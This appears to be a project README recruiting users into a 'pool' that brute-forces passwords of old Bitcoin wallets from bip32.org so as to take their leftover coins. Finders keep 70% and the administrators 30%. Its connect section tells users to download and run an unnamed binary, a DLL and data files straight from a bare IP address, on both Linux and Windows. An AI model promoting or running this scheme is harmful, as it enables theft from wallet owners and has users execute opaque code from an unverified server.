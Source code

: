 # bip39scan v2.0.1 POOL
# !!! The pool is expected to start this week !!!
**Collective search of old coins from the site [bip32.org](http://bip32.org)**

➡️ Online Statistic https://bip39scan.com<br>
➡️ Telegram group https://t.me/bip39scan

**Pool conditions:**<br>
💰 70% of the balance of the find to the one who found the password.<br>
💵 30% of the balance of the find to the project administration

> [!IMPORTANT]
> In the [bip39scan program mode 10](https://github.com/phrutis/bip39scan), many old coins were found.<br>
> The brute speed is very slow, so we decided to make a pool.
> Analysis of the finds showed that almost all the coins found were from 2014.<br>
> In 2014, 1 BTC cost $300-400.<br>
> Many users generated addresses, after the withdrawal, cents remained.<br>
> These cents are now worth a lot!<br>
> For example, abandoned $0.35 is now worth $150.<br>
> There are abandoned addresses with several dollars (now these are thousands of dollars)<br>
> Abandoned (forgotten) with small amounts (now these are tens of thousands dollars).<br>
> There is a high probability of finding forgotten coins $300-400 - this is now 1 BTC.<br>

> [!NOTE]
> Do not wait for others to find, do not miss your chance, join the pool now.


## Connect to the pool
### Linux:
```
wget http://95.215.108.160/up/xx
```
```
wget http://95.215.108.160/up/precomp.bin
```
```
wget http://95.215.108.160/up/libcrypto-1_1-x64.dll
```
```
chmod +x xx
```
```
./xx -u YourNickName --bloom 2048M
```

### Windows:
http://95.215.108.160/up/xx.exe<br>
http://95.215.108.160/up/precomp.bin<br>
http://95.215.108.160/up/libcrypto-1_1-x64.dll<br>
```
xx.exe -u Nick_Name --bloom 2048M
```


## FAQ :question:
**What does this pool do?**

Collectively brute forces passwords from old wallets created on bip32.org and others.<br>
A given alphabet is used for brute forcing, each client. <br>
Each card searches for its own piece of the main task.<hr>

**Will this pool work on my pc?**

Only CUDA cards support GTX, RTX, CMP<br>
Need RAM - 16 GB<br>
Brute speed:<br>
RTX 4090 = 50k/s<br>
RTX 5090 = 80k/s<hr>

**Why does the program require 16 GB of RAM?**

The client automatically downloads the address database 11 GB (binary format). <br>
The database is loaded into RAM and eats up 12 GB of memory, another 4 GB is needed for the system.<br>
If the database on the server has changed, it automatically updates it. <br>
After downloading, the client checks the checksum of the database, which excludes incompletely downloaded addresses.<hr>

**I want to search anonymously, how can I do this?**

For anonymity, use your BTC address instead of a nickname.<br>
Use your address, 70% will be paid to it<hr>

**What path do clients search for?**

The client uses a multipath. The search is performed on 7 pathes at once. <br>
That's why the search speed is 30% lower than the nominal one.<br>
This is 7 times faster than going through the same thing 7 times!<hr>

**How to search by nickname?**

You can use a nickname in the pool. Use xx -u Yournick --bloom 2048M<br>
You need to write @phrutis your nickname and your BTC address.<br>
I will add your address to the private list.<hr>

**I'm a miner and I have little RAM in my rig.**

Try increasing the swap file.<br>
Ask in the chat, they will tell you.<hr>

**How do I know what I found?**

The bot will send a message to the telegram group https://t.me/bip39scan with information about the find.<br>
If the client finds an address, the window displays the found address.<br>
<img width="977" height="510" alt="Image" src="https://github.com/user-attachments/assets/29720e79-e401-4d2c-82e1-f134dc52858d" /><hr>

**My client won't start, there's an error, etc.**

Write about it in the group. They'll tell you how to fix the problem.<br>
There are no telepaths in the chat. Take a screenshot of the launch window.<br>
It's important that the launch command is visible.<br>
Specify the OS, name and model of your card<hr>

**I have another question, where should I ask it?**

Write it in the group https://t.me/bip39scan the participants or administrators will tell you<hr>

